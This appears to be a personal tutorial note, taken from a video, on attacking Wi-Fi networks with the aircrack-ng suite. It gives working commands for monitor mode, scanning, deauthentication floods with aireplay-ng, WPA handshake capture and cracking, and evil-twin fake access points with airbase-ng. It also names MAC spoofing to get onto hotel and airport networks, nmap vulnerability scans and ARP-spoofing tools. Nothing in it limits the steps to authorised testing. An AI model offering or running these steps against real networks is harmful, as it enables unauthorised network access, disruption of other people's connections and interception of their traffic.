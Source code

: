 Sources:
https://youtu.be/WfYxrLaqlN8

sudo dpkg-reconfigure [[Wireshark]]-common
\
sudo [[usermod]] -a -G [[Wireshark]] {your username}

---------------------------------------------------------------------------------
Aircrack - ([[Airmon]])
\
sudo apt-get install [[realtek]]-rtl88xxau-dkms
\
sudo [[airmon-ng]] check kill
\
sudo [[airmon-ng]] start wlan0

---------------------------------------------------------------------------------
\
[[Aircrack]] & [[Airodump]]:
\
this is for 2.4ghz:
sudo [[airodump-ng]] wlan0
\
this will pull everything from 5ghz too:
\
sudo airodump-ng -b a wlan0
\
if you click [a] you can change the filter to see stations connected to the access points
\
the names of [[Probes]] are showing you the names that devices like phones and computers are looking out for a router named that
\
if you see any devices that are "not associated", and you change your Wi-Fi adapters name to the probe name their device will connect to you as a Wi-Fi connection, and this is the heart of an evil twin attack.
\
these commands are found in [[Aircrack]] when you choose the suite that you are using.
\
if you click [tab] while in the access points view it will color-code points of interest for scan 
\
you can mark them with [m] when you select it with arrow keys. When you go to the stations view you can now see a correlation between points of interest and stations.

---------------------------------------------------------------------------------

aircrack [[Air-Replay]]:
\
sudo aireplay-ng -0 25 -D -a *router mac address* *name of your wifi adapters name*
\
-0 is [[Deauth_Attack]] | 25 is the [[Packet]] amount | -D is making it so it doesn't check for what channels devices are connecting to | -a is [[Access_Point]] | you can put -c after the [router [[MAC]]address to just disconnect one [device mac address]
\
this is important because you can capture a [[WPA_Handshake]]] during the devices auto-connect using [[AiroDump]].
\
now with this you can use [[AirCrack]] and use the [[WPA]] handshake and it will start cracking the [[WIFI]] routers password
\
to make a fake access point use:
\
sudo [[airbase-ng]] -C 60 -P [[Wifi_Adapter]] name]
\
-C is for change and the 60 is the amount of seconds the broadcast is for | the -P is making the fake wifi whatever the name of the probes devices are looking for
\
[[MacChanger]] can be used to change your mac address to whatever 
\
this can be used for evil twin, can be used for getting onto hotel wifi networks, airport networks, once you can capture that [[WPA_Handshake]] and crack it you can get the password, and then you can also just kick off a device and change your [[MAC]] address to the [[MAC]] address the router is looking for.
\
tools to make this all work:
- [[Fern]]
- [[Wifite]]
- [[AirCrack]]
- [[Ettercap]]/[[Bettercap]]
\
when and if you ever do this you should always change the mode your wifi adapter is working in from monitor to managed.
\
[[nmap]] --script vuln *ip addr*
\
When using [[Wireshark]] and if you want to narrow the filter to just look for [[ARP handshakes]] you can use:

- [[arp.opcode]] == 1 [Tells you what devices are asking for MAC addresses] 
- [[arp.opcode]] == 2 [Tells you what devices are providing MAC addresses]

The 2 are super helpful 
\
Other tools to research for similar effects:
- [[Arpspoof]] *[[kali]]*
- [[Ettercap]] or [[Bettercap]] *Linux*
- [[Caine_and_Abel]] *Windows (slightly sus and VERY old)*

